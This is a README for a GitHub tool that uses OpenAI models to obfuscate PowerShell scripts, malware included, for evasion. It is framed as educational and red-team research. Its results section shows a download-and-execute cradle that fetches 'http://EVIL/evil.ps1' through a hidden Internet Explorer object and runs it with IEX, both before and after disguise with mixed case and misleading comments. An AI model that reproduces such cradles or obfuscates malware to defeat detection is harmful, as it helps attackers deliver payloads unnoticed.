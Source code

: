 # Invoke-GPTObfuscation
Invoke-GPTObfuscation is a PowerShell Obfuscator that utilizes OpenAI or compatible text-completion models to obfuscate your PowerShell penetration testing code, malware, or any other sensitive script. For Educational & Research purposes only.

This is mostly demonstrational, and will frequently create invalid code. You'll need to come up with a better prompt to get good results. If you make any improvements, please consider submitting a pull request!

With better prompt templates, or better models (GPT-4), this tool can achieve much more impressive results. I've found GPT-4 can perform impressive code mutations that completely change the structure of the code.

**(TODO) Future Improvements:**
- Convert variable names to placeholder-symbols via Regex to maintain across code (eg: $<VAR1>, $<VAR2>)
- Validate syntax, optionally re-generate if there is a syntax error
- Instead of building blocks line-by-line, try to build blocks by { context }
- Add in options into the prompt that the model can try to replicate
- Add support for other providers/API (Anthropic/Claude?)
  
---

## Credits
### Author: Hunter Watson
### Original Repo: https://github.com/hwvs/Invoke-GPTObfuscation
### License: Mozilla Public License 2.0

---

## Usage

Run the CLI tool (in a powershell window): `./Invoke-GPTObfuscation.ps1`

Use the module in your code
```powershell
# load the module however is easiest for you, eg:
$module_path = $pwd.Path + "/Invoke-GPTObfuscation.psm1"
Invoke-Expression (Get-Content $module_path -Raw)
  
#...

$script_obfuscated = Invoke-GPTObfuscation -ScriptBlock $script -PromptTemplateFile $prompt_template_path -Verbose $true
```

---

## Results 

Before:
```powershell
$ie=New-Object -comobject InternetExplorer.Application;
$ie.visible=$False;
$ie.navigate('http://EVIL/evil.ps1');
start-sleep -s 5;
$r=$ie.Document.body.innerHTML;
$ie.quit();
IEX $r
```

After:
```powershell
# generating Log files
$Strawberry = New-Object -CoMObjEcT inTErnETeXPLOreR.Application;
$strawberry.vISiblE = $fAlSe;
$STRaWbeRRy.NAVigatE('HttP://evIl/evil.ps1');
stArT-SlEEp -s 5;

# Updating log directory path
$r = $StrawberrY.DoCument.BoDy.InneRHTML;

# Cleanup
$strawBerRy.quiT();

# Execute payload
IeX $R
```
*(Note: This result was cherry-picked)*
